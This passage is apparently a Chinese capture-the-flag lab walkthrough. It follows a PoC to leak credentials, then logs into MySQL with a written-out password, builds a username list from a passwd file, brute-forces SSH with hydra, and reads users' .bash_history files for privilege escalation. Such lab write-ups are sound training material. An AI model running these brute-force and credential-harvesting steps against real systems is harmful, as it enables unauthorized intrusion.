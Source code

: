 ![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohw6Chfhn0qudDGsPTck7j5hqUlOmCLUNSQ6aOOP0cqazsvcaoFMTfpg/640?wx_fmt=png&from=appmsg "")  
跟着提示的poc我们构造一个url，然后这里给了一个url![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohib7ofRiakyvaAb9pW49tN7fWrvxhxlD5T9OhG9xg7Cwe9IJjEmwVe1cQ/640?wx_fmt=png&from=appmsg "")  
然后我们访问url![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohjibDW3RoQl8vmJ7OBLvEaMibSdPxhialtWaick18b0H5yOphTQTHtUt3Uw/640?wx_fmt=png&from=appmsg "")  
然后我们发现uploads里面会多一个jpeg![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohicuc4FlAGAKGNhISBmfoaO3PS63ibJQgqNFYWer0X0mERQCYGc9bQzNw/640?wx_fmt=png&from=appmsg "")  
然后我们把图片下载下来查看一下这个图片  
```
忽略掉证书检查参数为：--no-check-certificate

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohrGpsr7QB5AJhia8PBqbwnEWVuX9TyREPIuM4gTibD3YFffkCq5EKfibeA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohvLFQtunmGhK03BeXHnGu2K8Fqzgh3MF63n8exmHV8t4ia95ex9H4agA/640?wx_fmt=png&from=appmsg "")  
这里我们也是拿到了sql的用户名和密码  
  
登录mysql时候报错，老版本mysql的话禁用ssl就可以了  
```
mysql -h 192.168.66.178 -u root -pplbkac --skip-ssl

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohdmZs5oAWm7gic2N6nq37zcF1lNZbLLfxXZleGAIFa7QmJzWI52AyibJQ/640?wx_fmt=png&from=appmsg "")  
这里其实就已经爆了登录信息![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohQoAtKZTcrGJliclLVtzqAqMnGMibzl59qpsg7zGPibwSO1HRoh4bVJbAw/640?wx_fmt=png&from=appmsg "")  
  
#### Hydra  
  
为什么用这个工具，因为我不熟练，mysql，处处碰壁，最后也是看了很多师傅文章了解到这个靶场爆破会省很多时间  
```
cat 1.jpeg | grep /bin/bash | cut -d ":" -f1 > user.txt
把账户写入user.txt，当作一个用户名字典

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohnRyuG9ktnPe2YRQyJ3ssz25QYbFuL70XXWshjZTVrclbw0WY4ibuycQ/640?wx_fmt=png&from=appmsg "")  
ok，开启hydra，这里我已经受不了了。本来是中午1点左右打的靶场，现在是17：45  
```
hydra 192.168.1.10 ssh -L user.txt -p plbkac
这里hydra会以user.txt作为用户名字典，密码就是plbkac

```  
  
小技巧：文件上锁了就没有执行权了，记得给他赋x权力![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohdhM9k9Rjibx8iajSibNibYibfdR711VCxJdv1bicicwqVdXKvibYSQrPR3h3Sg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohdhM9k9Rjibx8iajSibNibYibfdR711VCxJdv1bicicwqVdXKvibYSQrPR3h3Sg/640?wx_fmt=png&from=appmsg "")  
### 7、提权：  
  
我们爆出来了ssh账户密码，接下来就是提权了，查找具有 Setuid 权限的文件的命令 ls -alhR  
```
查看所有文件夹下的.bash_history文件内容，这段代码非常好用
cat ./*/.bash_history

```  
  